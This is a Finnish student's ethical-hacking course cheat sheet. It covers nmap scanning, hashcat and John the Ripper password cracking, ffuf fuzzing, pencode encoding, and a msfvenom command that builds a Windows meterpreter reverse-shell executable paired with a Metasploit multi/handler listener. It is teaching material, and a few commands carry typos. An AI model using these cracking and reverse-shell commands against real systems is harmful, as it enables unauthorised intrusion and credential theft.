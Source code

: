 
    
 # H6
 
### Laitteisto
 
* Käyttöjärjestelmä	Microsoft Windows 10 Enterprise LTSC 64 bit
* Prosessori i5-6600
* RAM 16 GB
* Virtuaaliohjelmisto : Oracle VM VirtualBox
* Virtuaali käyttöjärjestelmä: Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4

 ## A) Cheat sheet

### NMAP
 
    mmap 192.168.1.1 ##Scan a single IP
    nmap 192.168.1.1 192.168.2.1 ##Scan specific IPs
    nmap 192.168.1.1-254 ##Scan a range
    nmap scanme.nmap.org ##Scan a domain
    nmap 192.168.1.0/24 ##Scan using CIDR notation
    -iL nmap -iL targets.txt ##Scan targets from a file
    -iR nmap -iR 100 ##Scan 100 random hosts
    -exclude nmap -exclude 192.168.1.1 ##Exclude listed host

### HASHCAT
    
 $ hashcat -m 0 '6b1628b016dff46e6fa35684be6acc96' rockyou.txt -o solved

Mikä suorittaa Hashcat ohjelman. '-m 0' määrittää halutun tiivistetyypin (MD5 tässä tapauksessa, suosituin), sitten annetaan salasanatiiviste ja määritetään käytettävä sanakirja. '-o solved' tallentaa vastauksen solved-nimiseen tiedostoon.

### FUFF
    

       $ ./ffuf -w /home/r01/Documents/common.txt -u http://127.0.0.2:8000/FUZZ -ac

Komento käynnistää ffuff-ohjelman ( ./ffuf -w), seuraavaksi määritellään sanakirja (/home/r01/Documents/common.tx), sitten kohde (-u http://127.0.0.2:8000/FUZZ) ja lopuksi käytin komentoa autocalibrate (-ac), mikä automaattisesti määrittää suodattimet

**John The ripper**

John the ripper on Hashcatin tapainen ohjelma joka toimii hieman eri tavalla.


    ./john tero.zip.hash ## Luo tiivisteen tiedostomuodosta joka on salasana suojattu

    ./john tero.zip.hash ## Ajaa ohjelman ja murtaa tiedoston tero.zip.hash

Asennus:

    $ sudo apt-get update
    $ sudo apt-get -y install micro bash-completion git build-essential libssl-dev zlib1g zlib1g-dev zlib-gst libbz2-1.0 libbz2-dev atool zip wget


    $ git clone --depth=1 https://github.com/openwall/john.git
    $ cd john/src/
    $ ./configure
    $ make -s clean && make -sj4

Käyttö:

    $ $HOME/john/run/zip2john tero.zip >tero.zip.hash
    $ $HOME/john/run/john tero.zip.hash 
    
    





**MSFVENOM ja METASPLOITABLE**

    msfvenom -p <PAYLOAD> -e <ENCODER> -f <FORMAT> -i <ENCODE COUNT> LHOST=<IP>

Esimerkki

    msfv -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=80 -f exe

Yllöoleva komento luo reverse tcp haittaohjelman joka kuuntelee osoitetta 127.0.0.1:80 ja ohjelma on .exe ajettava.

Metasploitablen käyttöön löysin hyvän sivuston missä vinkkejä sen käytöstä: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

Multi/handler:

    msfconsole
    use multi/handler/payload
    SET payload <haittaohjelma>
    SET LHOST <kuunteluosoite>
    SET LPORT <kuunteluportti>
    run -j ## Ajaa multihandlerin taustalla.

    
Metasploitableen on olemassa hyvä cheatsheet kuvana: 

![image](https://github.com/FredrikAkerlund/Starting-pentesting/assets/122887178/68fbebe5-8878-4be8-925f-cfa19839fb80)

Kuvan lähde: https://www.comparitech.com/net-admin/metasploit-cheat-sheet/

**Pencode**

Pencode avulla voi helposti koodata stringejä haluamaksi

    echo 'hello world' | pencode md5   ## Koodaa hello world MD5 tiivisteeksi     
        5eb63bbbe01eeed093cb22bb8f5acdc3 ##MD5 tiiviste****


    pencode - complex payload encoder v0.4

    Usage: ./pencode FUNC1 FUNC2 FUNC3...
    
    ./pencode reads input from stdin by default, which is typically piped from another process.
    
    OPTIONS:
    -input reads input from a file, line by line.
    
    ENCODERS
      b64encode         - Base64 encoder
      hexencode         - Hex string encoder
      htmlescape        - HTML escape
      jsonescape        - JSON escape
      unicodeencodeall  - Unicode escape string encode (all characters)
      urlencode         - URL encode reserved characters
      urlencodeall      - URL encode all characters
      utf16             - UTF-16 encoder (Little Endian)
      utf16be           - UTF-16 encoder (Big Endian)
      xmlescape         - XML escape
    
    DECODERS
      b64decode         - Base64 decoder
      hexdecode         - Hex string decoder
      htmlunescape      - HTML unescape
      jsonunescape      - JSON unescape
      unicodedecode     - Unicode escape string decode
      urldecode         - URL decode
      xmlunescape       - XML unescape
    
    HASHES
      md5               - MD5 sum
      sha1              - SHA1 checksum
      sha224            - SHA224 checksum
      sha256            - SHA256 checksum
      sha384            - SHA384 checksum
      sha512            - SHA512 checksum
    
    OTHER
      filename.tmpl     - Replaces string #PAYLOAD# in content of a file that has .tmpl extension.
      lower             - Convert string to lowercase
      upper             - Convert string to uppercase


 
## B)





## Lähteet



Tunkeutumistestaus 2024, Tero Karvinen (https://terokarvinen.com/2024/eettinen-hakkerointi-2024/)

https://github.com/FredrikAkerlund/Starting-pentesting/blob/main/h6%20Countdown%20to%20CTF.md

Kali 2024.1 - 28th February, 2024 - The first 2024 Kali Rolling release. Kernel 6.6.0, Xfce 4.18.4. (https://www.kali.org/get-kali/#kali-platforms)






#### Tehnyt Roi Partanen 28.4.2024
